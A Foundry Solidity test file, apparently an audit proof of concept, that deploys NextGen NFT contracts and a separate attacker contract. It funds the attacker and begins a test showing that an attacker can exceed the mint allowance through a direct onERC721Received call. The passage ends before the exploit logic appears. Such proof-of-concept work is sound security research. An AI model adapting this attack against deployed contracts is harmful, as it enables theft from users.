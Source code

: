 ```solidity
File: TestContract9.t.sol
01: // SPDX-License-Identifier: MIT
02:
03: pragma solidity ^0.8.19;
04:
05: import {Test, console} from "forge-std/Test.sol";
06:
07: import {NextGenMinterContract} from "../smart-contracts/MinterContract.sol";
08: import {NextGenCore} from "../smart-contracts/NextGenCore.sol";
09: import {NextGenAdmins} from "../smart-contracts/NextGenAdmins.sol";
10: import {randomPool} from "../smart-contracts/XRandoms.sol";
11: import {NextGenRandomizerNXT} from "../smart-contracts/RandomizerNXT.sol";
12: import {AttackerContract2} from "./AttackerContract2.t.sol";
13: import {auctionDemo} from "../smart-contracts/AuctionDemo.sol";
14:
15: contract TestContract9 is Test {
16:
17:     NextGenMinterContract minter;
18:     NextGenCore gencore;
19:     NextGenAdmins adminsContract;
20:     randomPool xrandoms;
21:     NextGenRandomizerNXT randomizer;
22:     auctionDemo auctionContract;
23:     AttackerContract2 attackerContract2;
24:
25:     function setUp() public {
26:         //Deployment process - Followed from docs
27:         adminsContract = new NextGenAdmins();
28:         gencore = new NextGenCore("", "", address(adminsContract));
29:         minter = new NextGenMinterContract(address(gencore),address(0) , address(adminsContract));
30:         xrandoms = new randomPool();
31:         randomizer = new NextGenRandomizerNXT(address(xrandoms), address(this), address(gencore));
32:         auctionContract = new auctionDemo(address(minter), address(gencore), address(adminsContract));
33:         attackerContract2 = new AttackerContract2();
34:     }
35:
36:     function testSetUpCollection() public {
37:         string[] memory emptyScript;
38:         gencore.createCollection("Azuki", "6529", "Empty", "Empty", "Empty", "Empty", "Empty", emptyScript);
39:         gencore.setCollectionData(1, address(0), 1, 10000, 0);
40:         minter.setCollectionCosts(1, 1000000000000000000, 0, 0, 0, 1,
41:         address(0));
42:         minter.setCollectionPhases(1, 1000, 0, 1000, 700000, 0);//Set allowliststarttime to public sale start time to pass check
43:         gencore.addMinterContract(address(minter));
44:         gencore.addRandomizer(1, address(randomizer));
45:     }
46:
47:     function testFundAttackerContractWith2ETH() public{
48:         vm.deal(address(attackerContract2), 2000000000000000000);
49:         (bool success,) = address(attackerContract2).call{value: 2000000000000000000}("");
50:     }
51:
52:     function testAttackerCanExceedAllowance() public {
53:         testSetUpCollection();
54:         testFundAttackerContractWith2ETH();
55:         vm.warp(1000); //Start public phase
56:
57:         bytes memory emptyData; //Start minting by calling onERC721Received directly
```